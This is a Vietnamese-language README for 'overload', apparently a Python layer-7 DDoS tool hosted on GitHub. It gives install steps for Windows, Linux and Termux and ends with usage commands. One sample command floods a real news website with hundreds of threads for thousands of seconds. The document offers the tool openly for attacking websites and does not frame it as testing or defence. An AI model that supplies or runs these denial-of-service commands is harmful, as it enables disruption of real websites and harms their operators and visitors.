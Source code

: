 <h1 align="center">📡 Công cụ DDOS (Lớp 7) </h1> 
<div align="center">
<img src="https://img.shields.io/badge/Made%20with-Python-1f425f.svg"> <img src="https://svgshare.com/i/ZhY.svg"> <img src="https://img.shields.io/github/forks/7zx/overload?style=social&label=Fork&maxAge=2592000"> <img src="https://img.shields.io/github/stars/7zx/overload?style=social&label=Star&maxAge=2592000"> <img src="https://img.shields.io/badge/PRs-welcome-brightgreen.svg?style=flat-square"> 
</div>

<p align="center">
  <img src="https://raw.githubusercontent.com/7zx/overload/main/img/logo.png" width="200" height="200">
</p>

# :computer: Cửa sổ chính
<p align="center">
  <img src="https://raw.githubusercontent.com/tanjilk/overload/main/img/imgshow.png">
</p>

# 🌙 Cài đặt


<h2>Windows</h2> <img src="https://cdn.iconscout.com/icon/free/png-256/windows-221-1175066.png" width="50" height="50">  

  - Cài đặt Python 3.8 [tại đây](https://www.python.org/downloads/release/python-38)
  - Mở trình cài đặt và nhấp vào: `add python to PATH`
  - Tải xuống overload <a href="https://github.com/7zx/overload/archive/refs/heads/main.zip" target="blank">tại đây</a>
  - Mở cmd hoặc PowerShell trong thư mục overload
  - Chạy lệnh này: `pip install -r requirements.txt`  

 <h2>Linux</h2><img src="https://raw.githubusercontent.com/8fn/overload/main/img/linux-icon-28166.png" width="50" height="50">

```
sudo apt update
sudo apt install python3 python3-pip git -y
git clone https://github.com/7zx/overload
cd overload/
pip3 install -r requirements.txt or python -m pip install -r requirements.txt
```

<h2>Termux</h2><img src="https://brandslogos.com/wp-content/uploads/images/large/terminal-logo.png" width="50" height="50">  

```
pkg update
pkg install python3 python3-pip git -y
git clone https://github.com/7zx/overload
cd overload/
pip3 install -r requirements.txt
```

## ❓ Cách sử dụng
Lệnh cơ bản để chạy overload như sau.  

```
python3 overload.py --time XXX --threads XXX --target [URL] --method HTTP
```

Thí dụ: 

```
python3 overload.py --time 5000 --threads 550 --target https://www.publico.pt/ --method HTTP
```
